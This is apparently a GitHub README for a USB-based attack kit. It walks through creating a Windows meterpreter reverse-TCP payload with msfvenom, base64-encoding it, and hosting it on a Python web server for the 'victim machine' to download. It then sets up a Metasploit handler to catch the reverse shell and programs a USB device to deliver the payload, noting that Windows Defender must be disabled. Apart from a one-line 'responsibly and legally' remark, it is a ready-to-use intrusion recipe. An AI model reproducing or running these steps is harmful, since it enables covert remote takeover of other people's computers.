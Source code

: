 # Metasploit Download

Throughout this tutorial I will refer to `0.0.0.0`. When you see `0.0.0.0` you should replace it with your IP address.

You must have the [metasploit-framework](https://github.com/rapid7/metasploit-framework) and python installed in order for this to work. Installed by default in Kali Linux.

Please note that Windows Defender will stop this script from running. Windows Defender must be disabled for this script to work.

## Creating Payload

This command will create a Windows executable file, encoded in base64. Make sure to replace `0.0.0.0` with your IP.

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=0.0.0.0 LPORT=4444 -f exe -o winner.exe
base64 winner.exe > winner.exe.b64
```

## Hosting Payload

This command creates a local server on your device that the victim machine can download the payload from.

```bash
python -m http.server 8888
```

## Metasploit Listener

Start metasploit by running the following command.

```
msfconsole
```

The following is a sequence of commands to be run once metasploit is loaded. They will prepare you to receive the reverse shell. Make sure to replace `0.0.0.0` with your IP.

```
use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_tcp
setg LHOST 0.0.0.0
setg LPORT 4444
exploit
```

## Programming USB

Open [metasploit-download.ino](metasploit-download.ino), go to line 24, replace `0.0.0.0` with your IP, then upload your script to the USB. Insert __responsibly and legally__ please!

